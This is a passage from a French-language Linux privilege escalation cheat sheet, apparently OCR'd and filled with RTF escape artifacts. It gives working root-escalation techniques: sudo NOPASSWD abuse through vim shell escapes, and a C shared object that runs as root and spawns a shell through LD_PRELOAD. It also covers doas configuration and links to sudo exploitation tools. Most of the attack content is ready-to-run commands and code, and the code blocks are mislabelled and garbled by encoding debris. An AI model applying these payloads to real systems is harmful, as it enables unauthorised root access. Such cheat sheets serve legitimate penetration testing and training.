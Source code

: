 ```powershell\
| CAP_NET_BIND_SERVICE  | SERVICE lie un socket aux ports privil\'e9gi\'e9s du domaine internet  |\
\
## SUDO\
Outil: [Exploitation sudo](https://github.com/TH3xACE/SUDO_KILLER)\
\
### NOPASSWD\
\
La configuration sudo pourrait autoriser un utilisateur \uc0\u224  ex\'e9cuter des commandes avec d\'92autres privil\u232 ges utilisateurs sans conna\'eetre leur mot de passe.\
\
```bash\
$ sudo -l\
\
User demo may run the following commands on crashlab:\
    (root) NOPASSWD: /usr/bin/vim\
```\
\
Dans cet exemple l\'92utilisateur `demo` peut lancer `vim` en tant que `root`, il est donc maintenant simple d\'92obtenir un shell en ajoutant une cl\'e9 ssh dans le r\'e9pertoire root ou en utilisant `sh`.\
\
```bash\
sudo vim -c '!sh'\
sudo -u root vim -c '!sh'\
```\
\
### LD_PRELOAD and NOPASSWD\
\
If `LD_PRELOAD` is explicitly defined in the sudoers file\
\
```powershell\
Defaults        env_keep += LD_PRELOAD\
```\
\
Compile les objets partag\'e9s suivant en utilisant le code C ci-dessous avec `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`\
\
```powershell\
#include <stdio.h>\
#include <sys/types.h>\
#include <stdlib.h>\
void _init() \{\
	unsetenv("LD_PRELOAD");\
	setgid(0);\
	setuid(0);\
	system("/bin/sh");\
\}\
```\
\
Ex\'e9cute n\'92importe quel binaire avec LD_PRELOAD pour faire spawn un shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`\
\
### Doas\
\
Il existe certaines alternatives au binaire `sudo` comme `doas` pour OpenBSD, n\'92oubliez pas de v\'e9rifier sa configuration dans `/etc/doas.conf`\
\
```bash\
permit nopass demo as root cmd vim\
```\
\
### sudo_inject\
\
On utilise [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)\
\
```